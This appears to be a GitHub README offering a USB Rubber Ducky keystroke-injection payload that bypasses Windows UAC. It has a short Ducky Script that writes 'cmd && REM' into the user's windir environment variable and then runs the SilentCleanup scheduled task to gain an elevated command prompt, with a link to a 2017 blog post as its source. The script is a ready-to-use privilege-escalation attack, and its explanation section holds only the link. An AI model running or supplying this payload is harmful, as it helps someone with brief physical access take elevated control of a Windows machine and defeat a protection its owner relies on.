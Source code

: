 # UAC Bypass HID
This payload bypasses the UAC

<img src="https://1.bp.blogspot.com/-31cvC2aPntY/WX8qJVj3OhI/AAAAAAAAoOI/X3ycE3JokCUQopcsQbj9mqLTO8GcDBDzgCLcBGAs/s1600/4.png" alt="http://www.elladodelmal.com">

Using the Environment Variables to bypass the UAC:

<img src="https://1.bp.blogspot.com/-A8Mwu4X3gQc/WX8qIzsdyVI/AAAAAAAAoN8/u13zbeQ2NVQjzL7-n9MZUQn3pXBkJvClACLcBGAs/s1600/2.png" alt="http://www.elladodelmal.com">

# CODE (Ducky Script)
<pre><code>GUI r
DELAY 200
STRING powershell
DELAY 300
ALT n
STRING reg add hkcu\Environment /v windir /d "cmd && REM"
ENTER
DELAY 1000
STRING schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
ENTER
DELAY 200
STRING echo UAC Bypassed!
ENTER
</pre></code>


# How does it work?
Source: http://www.elladodelmal.com/2017/07/2017-el-ano-que-bypasseamos-uac.html
